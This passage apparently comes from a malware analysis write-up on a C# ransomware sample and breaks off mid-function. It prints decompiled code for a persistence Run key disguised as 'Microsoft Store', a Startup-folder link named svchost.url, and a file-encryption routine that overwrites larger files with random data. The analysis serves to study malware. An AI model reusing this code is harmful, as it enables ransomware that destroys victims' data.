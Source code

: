 - also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup

### Encryption methodes

#### Directory Encryption
```cs
	private static void encryptDirectory(string location)
		{
			try
			{
				string[] files = Directory.GetFiles(location);
				bool flag = true;
				for (int i = 0; i < files.Length; i++)
				{
					try
					{
						string extension = Path.GetExtension(files[i]);
						string fileName = Path.GetFileName(files[i]);
						if (Array.Exists<string>(Program.validExtensions, (string E) => E == extension.ToLower()) && fileName != Program.droppedMessageTextbox)
						{
							FileInfo fileInfo = new FileInfo(files[i]);
							fileInfo.Attributes = FileAttributes.Normal;
							if (fileInfo.Length < 2117152L)
							{
								if (Program.encryptionAesRsa)
								{
									Program.EncryptFile(files[i]);
								}
							}
							else if (fileInfo.Length > 200000000L)
							{
								Random random = new Random();
								int length = random.Next(200000000, 300000000);
								string @string = Encoding.UTF8.GetString(Program.random_bytes(length));
								File.WriteAllText(files[i], Program.randomEncode(@string));
								File.Move(files[i], files[i] + "." + Program.RandomStringForExtension(4));
							}
							else
							{
								string string2 = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4));
								File.WriteAllText(files[i], Program.randomEncode(string2));
```